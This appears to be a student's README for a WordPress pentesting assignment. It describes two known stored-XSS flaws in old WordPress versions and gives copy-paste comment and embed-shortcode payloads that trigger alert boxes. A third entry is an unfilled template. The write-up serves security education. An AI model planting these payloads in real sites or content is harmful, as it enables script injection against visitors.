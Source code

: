 # Project 7 - WordPress Pentesting

Time spent: 10 hours spent in total

> Objective: Find, analyze, recreate, and document three vulnerabilities affecting an old version of WordPress

## Pentesting Report

1. (Required) XSS Vulnerability due to UTF8 tructed data
  - [x] Summary: 
    - Vulnerability types:XSS 
    - Tested in version:WP 4.2.4
    - Fixed in version: 4.3.1
  - [x] GIF Walkthrough: http://i.imgur.com/5i6YT7N.gif
  - [x] Steps to recreate: 
    - Copy and paste this payload and post it in the comment: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
  - [ ] Affected source code:
2. (Required) WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0-4.7.2
    - Fixed in version: 
  - [x] GIF Walkthrough:http://i.imgur.com/EIPLH79.gif 
  - [x] Steps to recreate: 
    - Copy and paste this payload into a new post: [embed src='https://youtube.com/embed/11111\x3csvg onload=alert(1)\x3e'][/embed]
  - [ ] Affected source code:
    - [Link 1](https://developer.wordpress.org/reference/functions/do_shortcode/)
    - [Link 2](https://developer.wordpress.org/reference/functions/wp_embed_register_handler/)
    - [Link 3](https://developer.wordpress.org/reference/classes/wp_embed/autoembed/)
3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.